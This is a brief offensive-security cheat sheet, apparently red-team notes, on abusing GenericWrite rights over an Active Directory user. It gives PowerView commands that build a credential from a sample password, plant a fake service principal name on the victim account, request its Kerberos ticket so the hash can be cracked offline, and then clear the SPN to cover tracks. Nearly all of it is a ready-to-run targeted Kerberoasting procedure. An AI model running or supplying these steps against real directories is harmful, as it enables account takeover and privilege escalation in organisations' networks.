 # GenericWrite



Upload PowerView.ps1 
[PowerView Tips by Harmj0y](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
[Harmj0y Cheatsheets](https://github.com/HarmJ0y/CheatSheets)

####  Over a User

GenericWrite - the [iredteam Generic requires log off and on](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('$domain\$user', $SecPassword)
```

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as user:

```powershell
# The service principle name does not matter 
Set-DomainObject -Credential $Cred -Identity $currentUser -SET @{serviceprincipalname='DoesNot/MatterunlessOPSEC'}
```

After running this, you can use [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/#get-domainspnticket) as follows:

```powershell
Get-DomainSPNTicket -Credential $Cred -SPN 'Object/maria'  | fl
```

The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName can be done with the Set-DomainObject command:

```powershell
# Bloodhound errorious -TargetIdentity issues
Set-DomainObject -Credential $Cred -Identity maria -Clear serviceprincipalname
```

## References

[Bloodhound](https://bloodhound.readthedocs.io/en/latest/)
[PowerView Tips by Harmj0y](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
[Harmj0y Cheatsheets](https://github.com/HarmJ0y/CheatSheets)
[iredteam Generic requires log off and on](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
